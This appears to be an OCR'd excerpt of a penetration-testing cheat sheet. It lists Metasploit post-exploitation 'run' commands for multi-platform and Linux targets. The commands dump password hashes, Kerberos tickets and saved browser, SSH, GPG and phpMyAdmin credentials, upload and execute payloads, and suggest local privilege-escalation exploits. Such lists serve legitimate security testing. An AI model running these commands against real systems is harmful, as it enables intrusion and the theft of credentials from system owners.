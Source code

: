 run post/multi/gather/ssh_creds

run post/multi/manage/system_session

run post/multi/gather/filezilla_client_cred

run post/multi/gather/thunderbird_creds

run post/multi/manage/upload_exec

run post/multi/gather/find_vmx

run post/multi/gather/tomcat_gather

run post/multi/manage/zip

run post/multi/gather/firefox_creds

run post/multi/gather/ubiquiti_unifi_backup

run post/multi/recon/local_exploit_suggester

run post/multi/gather/gpg_creds

run post/multi/gather/unix_cached_ad_hashes

run post/multi/recon/multiport_egress_traffic

run post/multi/gather/grub_creds

run post/multi/gather/unix_kerberos_tickets

run post/multi/recon/sudo_commands

run post/multi/gather/irssi_creds

run post/multi/gather/wlan_geolocate

run post/multi/sap/smdagent_get_properties

#### 2.3.4 - Linux Modules

run post/linux/busybox/enum_connections

run post/linux/gather/enum_commands

run post/linux/gather/hashdump

run post/linux/busybox/enum_hosts

run post/linux/gather/enum_configs

run post/linux/gather/mount_cifs_creds

run post/linux/busybox/jailbreak

run post/linux/gather/enum_containers

run post/linux/gather/openvpn_credentials

run post/linux/busybox/ping_net

run post/linux/gather/enum_nagios_xi

run post/linux/gather/phpmyadmin_credsteal
